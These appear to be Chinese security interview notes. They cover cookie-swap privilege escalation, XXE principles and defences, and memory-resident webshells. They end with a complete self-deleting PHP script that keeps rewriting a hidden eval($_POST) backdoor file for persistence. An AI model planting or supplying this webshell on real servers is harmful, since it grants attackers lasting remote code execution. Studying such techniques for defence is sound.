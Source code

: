 垂直越权：A权限高于B，B越权操作A个人信息的行为叫垂直越权

抓取管理员A的数据包，得到A操作的cookie值，然后在B登录后抓取包替换上A的cookie值然后放包，就可以复现管理员A的行为

垂直越权限制太大，运用场景少



越权漏洞属于逻辑漏洞，是权限校验不严谨导致的



## XXE漏洞

原理：某些应用程序在解析xml文件时，没对上传的xml文件进行过滤处理，导致上传的xml文件可能包含某些命令可以加载恶意外部实体文件。

可以利用这个漏洞读取本地文件、php文件、内部开放端口这些，还有就是ddos攻击

```
实战中的运用：检测服务器是否支持DTD引用外部实体但实际操作过程中，一般都是直接抓包看有没有使用XML,有就是直接往外部实体上套一下试试
```



防范：

1、禁止加载外部实体；
 2、不允许XML中含有任何自己声明的DTD。





## 当你是蓝队领班，此时网站被getshell后你该怎么处理？

应急响应





## 了解内网渗透和免杀吗？







## 不死马（内存马的一种，基于php）可以用来维权

由客户端发起的Web请求后，中间件的各个独立的组件如Listener、Filter、Servlet等组件会在请求过程中做监听、判断、过滤等操作，内存马就是利用请求过程在内存中修改已有的组件或动态注册一个新的组件，插入恶意的shellcode，达到持久化控制服务器的目的。

```
<?php
ignore_user_abort(true);
set_time_limit(0);
@unlink(__FILE__);
$file = '.HH.php';
$code = '<?php @eval($_POST[\'c\']); ?>';
while (1){
    file_put_contents($file,$code);
    usleep(5000);
}
?>
```

